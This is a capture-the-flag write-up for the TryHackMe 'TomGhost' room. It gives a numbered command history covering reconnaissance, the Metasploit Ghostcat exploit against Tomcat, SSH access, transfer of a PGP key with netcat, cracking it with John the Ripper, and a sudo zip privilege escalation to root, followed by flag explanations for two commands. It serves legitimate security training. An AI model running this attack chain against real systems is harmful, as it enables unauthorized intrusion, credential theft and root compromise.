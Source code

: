 

**Room completed!**

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/TryHackMe%20-%20TomGhost.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP}:8080 > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `wget http://{TARGET-IP}:8080/manager`
6. `msfconsole -q 2>/dev/null`
7. `search Tomcat 9.0`
8. `use auxiliary/admin/http/tomcat_ghostcat`
9. `show options`
10. `set RHOSTS {TARGET-IP}`
11. `set RPORT 8080`
12. `exploit`
13. `ssh {USER1}@{TARGET IP} -p 22`
14. `whoami`
15. `find / -type f -name user.txt 2>/dev/null`
16. `cat /home/merlin/user.txt`
17. `pwd`
18. `ls`
19. `nc -lvnp {PORT NUMBER} > tryhackme.asc`
20. `nc {MACHINE IP} {PORT NUMBER} < tryhackme.asc`
21. `gpg2john tryhackme.asc > {FILENAME3}.txt`
22. `john –wordlist={WORDLIST-PATH} {FILENAME3}.txt`
23. `gpg --import tryhackme.asc`
24. `gpg --decrypt credentials.pgp`
25. `sudo -l`
26. `su {USER2}`
27. `whoami`
28. `TF=$(mktemp -u)`
29. `sudo zip $TF /etc/hosts -T -TT ‘sh #’`
30. `whoami`
31. `find / -type f -name root.txt 2>/dev/null`
32. `cat /root/root.txt`

# Dissecting the Commands

`nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
+ **-sC** enables the use of default scripts during the scan, which runs a set of commonly used scripts against the target IP to try to find any vulnerabilities
+ **-sV** enables version detection, which attempts to determine the sevice and version information of the open ports
+ **> {FILENAME1}.txt** redirects the results into a text file


`find / -type f -name user.txt 2>/dev/null`
+ **/** specifies the starting directory to be the root directory
+ **-type f** specifies that it should only search for regular files
+ **-name user.txt** specifies to search for a file called user.txt
+ **2>/dev/null** redirects error output (stderr) to the null device ensuring that any error message encountered during the search are suppressed and not displayed on the terminal
